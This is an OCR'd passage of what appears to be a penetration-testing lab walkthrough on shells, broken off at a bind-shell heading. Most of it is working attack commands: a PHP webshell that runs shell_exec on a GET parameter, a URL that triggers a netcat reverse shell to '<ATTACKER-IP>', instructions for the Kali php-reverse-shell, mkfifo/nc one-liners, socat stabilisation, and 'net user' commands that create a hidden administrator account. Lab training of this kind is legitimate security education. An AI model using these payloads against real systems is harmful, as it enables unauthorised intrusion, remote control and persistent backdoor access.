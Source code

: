 ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```
privileged account and log in remotely.

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

### Practice

**1. Upload a webshell to the Linux box and use netcat to send a reverse shell to your 
attacking machine.**

Start listener:

`nc -lnvp <PORT>`

Webshell shell.php:

`<?php "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` 

Upload to `uploads` folder

Execute with:

`<BOX-IP>/uploads/shell.php?cmd=nc <ATTACKER-IP> <PORT> -e /bin/bash`

**2. Upload `/usr/share/webshells/php/php-reverse-shell.php` from Kali and catch the 
reverse shell on your attacking machine**

Change `$ip` and `$port` in the `php-reverse-shell.php` file to attacking machines ip and 
port you are listening on with netcat.

Set up netcat listener on attacking machine:

`nc -lnvp <PORT>`

Execute with:

`<BOX-IP>/uploads/php-reverse-shell.php`

**3. Log into the Linux box over SSH and use the techniques from [Common Shell Payloads](#
common-shell-payloads) to experiment with bind and reverse netcat shells.**

**Reverse shells**

Target:

`nc <ATTACKER-IP> <PORT> -e /bin/bash`

Attacker:

`nc -lnvp <PORT>`

Target:

`mkfifo /tmp/f; nc <ATTACKER-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Attacker:

`nc -lnvp <PORT>`

**Bind shells**

Target:
```